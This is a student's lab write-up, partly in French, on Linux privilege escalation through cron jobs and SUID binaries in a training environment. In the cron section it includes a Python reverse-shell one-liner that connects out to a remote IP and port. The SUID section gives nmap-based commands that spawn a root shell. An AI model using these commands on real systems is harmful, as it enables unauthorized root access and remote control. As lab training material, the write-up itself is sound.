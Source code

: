 

## 2.1. Cron Jobs

(i) Download pspy32 in a folder /home/alice/your-name/.
```bash
# sur macOS
$ scp pspy32 nabil@10.211.55.6:/home/nabil/Pentest/PrivEsc/

# sur kali
$ scp Pentest/PrivEsc/pspy32 alice@10.11.1.36:/home/alice/nabil 
Unable to negotiate with 10.11.1.36 port 22: no matching host key type found. Their offer: ssh-rsa,ssh-dss
scp: Connection closed

$ scp Pentest/PrivEsc/pspy32 alice@10.11.1.36:/home/alice/nabil -oHostKeyAlgorithms=+ssh-rsa
-oHostKeyAlgorithms=+ssh-rsa: No such file or directory
$ scp -oHostKeyAlgorithms=+ssh-rsa Pentest/PrivEsc/pspy32 alice@10.11.1.36:/home/alice/nabil
alice@10.11.1.36's password: 
pspy32                                                                                            100% 2872KB   3.2MB/s   00:00    
```

(ii) For pspy32 to work, you must give it execution rights.
```bash
$ ls -l
total 20
drwxr-xr-x 2 alice alice 4096 2023-09-28 05:44 aless
drwxr-xr-x 2 alice alice 4096 2023-09-21 03:42 mahsum
drwxr-xr-x 2 root  root  4096 2023-09-27 04:55 mike
drwxr-xr-x 2 alice alice 4096 2023-09-28 09:56 nabil
drwxr-xr-x 2 alice alice 4096 2023-09-21 10:06 Seb
$ cd nabil
$ ls -l
total 2876
-rw-r--r-- 1 alice alice 2940928 2023-09-28 09:56 pspy32
$ chmod +x pspy32 
$ ls -l           
total 2876
-rwxr-xr-x 1 alice alice 2940928 2023-09-28 09:56 pspy32
```


(iii) Wait 5 minutes, you can go get a coffee.
-
(iv) Is there a process to launch if so, which one?
```bash
$ cd nabil
$ ./pspy32
...
2022/08/02 05:30:01 CMD: UID=256  PID=9126   | bash /var/www/backup.sh 
...
```

(v) What is the file that is executed?
```
backup.sh
```

(vi) Do you have write permissions on this file?
yes

(vii) Do a test by overwriting the file with a command line to start a reverse shell

Le reverse shell classique n'a pas fonctionné (en bash pur) du coup, je suis passé par python avec une reverse qui utilise les ==sockets==

```bash
export RHOST="192.168.149.15";export RPORT=1234;python -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

Cependant, il faut que je l'exécute moi-même pour que le reverse shell se fasse cependant comme je l'exécute en tant qu'alice je n'ai pas de shell en root.... Après être passé en root dans la partie SUID, j'ai pu remarqué que la crontab ne contient pas une exécution toutes les 5 minutes de /var/ww/backup.sh, du coup ici le reverse shell root n'est pas faisable, me semble-t-il!

(viii) Wait 5 minutes, you can check your email.



## 2.2. SUID/SGID


1.Display the executables whose SUID bit is set.
```bash
$ find / -type f -perm -4000 -exec ls -l {} \; 2>/dev/null
-rwsr-xr-x 1 root root 63584 2008-04-14 23:36 /bin/umount
-rwsr-xr-- 1 root fuse 20056 2008-02-26 13:25 /bin/fusermount
-rwsr-xr-x 1 root root 25540 2008-04-02 21:08 /bin/su
-rwsr-xr-x 1 root root 81368 2008-04-14 23:36 /bin/mount
-rwsr-xr-x 1 root root 30856 2007-12-10 12:33 /bin/ping
-rwsr-xr-x 1 root root 26684 2007-12-10 12:33 /bin/ping6
-rwsr-xr-x 1 root root 65520 2008-12-02 14:31 /sbin/mount.nfs
-rwsr-xr-- 1 root dhcp 2960 2008-04-02 09:38 /lib/dhcp3-client/call-dhclient-script
-rwsr-xr-x 2 root root 107776 2008-02-25 06:22 /usr/bin/sudoedit
-rwsr-sr-x 1 root root 7460 2008-06-25 16:53 /usr/bin/X
-rwsr-xr-x 1 root root 8524 2007-11-22 07:14 /usr/bin/netkit-rsh
-rwsr-xr-x 1 root root 37360 2008-04-02 21:08 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 12296 2007-12-10 12:33 /usr/bin/traceroute6.iputils
-rwsr-xr-x 2 root root 107776 2008-02-25 06:22 /usr/bin/sudo
-rwsr-xr-x 1 root root 12020 2007-11-22 07:14 /usr/bin/netkit-rlogin
-rwsr-xr-x 1 root root 11048 2007-12-10 12:33 /usr/bin/arping
-rwsr-sr-x 1 daemon daemon 38464 2007-02-20 08:41 /usr/bin/at
-rwsr-xr-x 1 root root 19144 2008-04-02 21:08 /usr/bin/newgrp
-rwsr-xr-x 1 root root 28624 2008-04-02 21:08 /usr/bin/chfn
-rwsr-xr-x 1 root root 780676 2008-04-08 10:04 /usr/bin/nmap
-rwsr-xr-x 1 root root 23952 2008-04-02 21:08 /usr/bin/chsh
-rwsr-xr-x 1 root root 15952 2007-11-22 07:14 /usr/bin/netkit-rcp
-rwsr-xr-x 1 root root 29104 2008-04-02 21:08 /usr/bin/passwd
-rwsr-xr-x 1 root root 46084 2008-03-31 00:32 /usr/bin/mtr
-rwsr-sr-x 1 libuuid libuuid 12336 2008-03-27 13:25 /usr/sbin/uuidd
-rwsr-xr-- 1 root dip 269256 2007-10-04 15:57 /usr/sbin/pppd
-rwsr-xr-- 1 root telnetd 6040 2006-12-17 21:16 /usr/lib/telnetlogin
-rwsr-xr-- 1 root www-data 10276 2010-03-09 15:52 /usr/lib/apache2/suexec
-rwsr-xr-x 1 root root 4524 2007-11-05 15:48 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 165748 2008-04-06 07:50 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 9624 2009-08-17 21:04 /usr/lib/pt_chown
```


2.Look at the gtfobins site to see which executable would give you root privileges(https:\//gtfobins.github.io/)
```
nmap
```

3.Execute de the command.
```bash
TF=$(mktemp)
echo 'os.execute("/bin/sh")' > $TF
nmap --script=$TF
```

ici j'obtiens un root shell mais ce que j'ecris ne s'affiche pas mais les commandes s'exécutent...

OU

```bash
sudo nmap --interactive
nmap> !sh
```

4.What is the executable that is exploitable and has the possibility to configure the suid ? 

```
/usr/bin/nmap
```



## 2.3. Interesting Files writable

-

